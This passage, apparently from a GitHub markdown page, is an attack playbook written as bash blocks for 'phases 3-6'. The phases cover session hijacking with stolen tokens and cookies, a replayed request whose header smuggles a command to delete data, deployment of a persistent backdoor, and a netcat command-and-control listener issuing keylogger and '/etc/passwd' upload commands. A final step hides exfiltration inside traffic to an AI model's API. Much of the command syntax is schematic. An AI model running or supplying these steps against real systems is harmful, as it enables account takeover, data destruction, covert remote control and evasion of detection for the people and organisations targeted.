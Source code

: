 #### Phase 3: Cookie Theft & Session Hijacking
```bash
# Extract session cookies from authenticated sessions
curl -H "Authorization: Bearer $STOLEN_ACCESS_TOKEN" \
     -H "Cookie: session_id=$SESSION_COOKIE" \
     https://target-application.com/api/user/profile

# Use cookies to maintain persistent access
curl -b "session_id=$STOLEN_COOKIE; auth_token=$STOLEN_TOKEN" \
     https://target-application.com/admin/panel
```

#### Phase 4: HAR Traffic Impersonation & RAT Deployment
```bash
# Capture legitimate traffic patterns
curl -H "Authorization: Bearer $STOLEN_TOKEN" \
     --dump-header headers.txt \
     --cookie-jar cookies.txt \
     https://legitimate-api.com/data > legitimate_traffic.har

# Modify and replay traffic for command execution
curl -H "Authorization: Bearer $STOLEN_TOKEN" \
     -H "X-Command: exec('rm -rf /sensitive-data')" \
     --data-binary @malicious_payload \
     https://compromised-system.com/api/execute

# Deploy persistent backdoor
curl -X POST https://compromised-system.com/api/deploy \
     -H "Authorization: Bearer $STOLEN_TOKEN" \
     -d '{"backdoor": "rat_server", "port": 4444, "persistence": true}'
```

#### Phase 5: Full RAT Command & Control
```bash
# Establish C2 server
nc -lvp 4444

# RAT commands from compromised system
echo "screenshot" | nc compromised-host 4444
echo "keylogger_start" | nc compromised-host 4444
echo "upload /etc/passwd" | nc compromised-host 4444
echo "exec 'whoami'" | nc compromised-host 4444
```

#### Phase 6: Anti-Forensic Cleanup
```bash
# Hide malicious activity in legitimate AI traffic patterns
curl -H "Authorization: Bearer $STOLEN_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
       "contents": [{
         "parts": [{
           "text": "Analyze this legitimate document content while exfiltrating data..."
         }]
       }],
       "generationConfig": {
         "temperature": 0.7,
         "maxOutputTokens": 1024
       }
     }' \
     https://generativelanguage.googleapis.com/v1beta/models/gemini-pro:generateContent

# Remove traces through compromised AI session
curl -X POST https://compromised-system.com/api/cleanup \
     -H "Authorization: Bearer $STOLEN_TOKEN" \
```